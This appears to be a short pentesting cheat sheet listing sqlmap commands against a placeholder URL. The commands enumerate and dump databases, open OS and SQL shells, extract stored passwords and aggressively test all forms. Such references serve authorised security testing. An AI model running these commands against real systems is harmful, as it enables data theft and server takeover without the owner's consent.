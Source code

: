 - **SQLMap Advanced Usage**
  - Enumerate databases: `sqlmap -u "https://target.com/page.php?id=1" --dbs`
  - Enumerate tables: `sqlmap -u "https://target.com/page.php?id=1" -D database_name --tables`
  - Enumerate columns: `sqlmap -u "https://target.com/page.php?id=1" -D database_name -T table_name --columns`
  - Dump data: `sqlmap -u "https://target.com/page.php?id=1" -D database_name -T table_name -C column1,column2 --dump`
  - Get OS shell: `sqlmap -u "https://target.com/page.php?id=1" --os-shell`
  - Get SQL shell: `sqlmap -u "https://target.com/page.php?id=1" --sql-shell`
  - Get database credentials: `sqlmap -u "https://target.com/page.php?id=1" --passwords`
  - Test all parameters: `sqlmap -u "https://target.com/page.php" --crawl=3 --forms --batch --random-agent --level=5 --risk=3`
